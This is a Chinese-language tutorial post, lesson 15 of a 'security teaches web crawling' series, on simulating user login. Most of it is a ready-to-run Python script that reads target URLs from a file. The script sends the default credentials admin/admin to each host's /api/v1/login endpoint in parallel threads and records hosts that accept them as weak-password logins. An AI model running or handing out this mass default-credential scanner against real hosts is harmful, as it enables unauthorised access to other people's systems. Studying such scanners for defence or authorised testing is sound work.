 # 原创
：  【网络安全带你练爬虫-100练】第15练：模拟用户登录

# 【网络安全带你练爬虫-100练】第15练：模拟用户登录

**目录**

[一、目标1：理清逻辑](#%E4%B8%80%E3%80%81%E7%9B%AE%E6%A0%871%EF%BC%9A%E7%90%86%E6%B8%85%E9%80%BB%E8%BE%91)

[二、目标2：将每一步用代码进行表示](#%E4%BA%8C%E3%80%81%E7%9B%AE%E6%A0%872%EF%BC%9A%E5%B0%86%E6%AF%8F%E4%B8%80%E6%AD%A5%E7%94%A8%E4%BB%A3%E7%A0%81%E8%BF%9B%E8%A1%8C%E8%A1%A8%E7%A4%BA)

[三、网络安全O](#%E4%B8%89%E3%80%81%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E5%B0%8F%E5%9C%88%E5%AD%90)

---


## 一、目标1：理清逻辑

> 
模拟登录的基本流程
1、进入入口程序
2、读取目标URL
3、请求加上线程
4、确定请求数据包
5、请求格式的确认
6、数据的处理与判断


---


---


## 二、目标2：将每一步用代码进行表示

（顺序会进行标号）

对于不同的站点的登录

需要对数据包、请求格式、逻辑处理等进行适当的修改

<br/> admin_login.py

```
​import csv
import requests
import threading


def admin_login(urls):
#④确定请求数据包
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.79',
        'Content-Type': 'application/json',
    }

    data = {
        "accessKey": "admin",
        "secretKey": "admin"
    }

    try:
#⑤请求格式的确认
        res = requests.post(url=urls, headers=headers, json=data, timeout=60)
#⑥数据的处理与判断
        if res.status_code == 204:
            print(f"\033[32m[+]{urls} is 弱口令登录!\033[0m")
            with open('ip_login.csv', mode='a', encoding='utf-8', newline='') as f:
                csv_w = csv.writer(f)
                csv_w.writerow([urls])
        else:
            print(f"\033[34m[-]{urls} pass.\033[0m")
    except Exception as e:
        print("错误为"+str(e))


#①进入入口程序
if __name__ == '__main__':
    threads = []
#②读取目标URL
    with open("ips.csv", mode="r") as f:
        for u in f:
            url = u.replace("\n", "")
            urls = url + "/api/v1/login"
#③函数请求加上线程
            thread = threading.Thread(target=admin_login, args=(urls,))
            thread.start()
            threads.append(thread)

    for thread in threads:
        thread.join()


​
```

---


---


> 
<h2>三、网络安全O</h2>

[README.md · 书半生/网络安全知识体系-实战中心 - 码云 - 开源中国 (gitee.com)<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.3.2/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N5K3"/>https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md](https://gitee.com/shubansheng/Treasure_knowledge/blob/master/README.md)
[GitHub - BLACKxZONE/Treasure_knowledge<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.3.2/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N5K3"/>https://github.com/BLACKxZONE/Treasure_knowledge](https://github.com/BLACKxZONE/Treasure_knowledge)


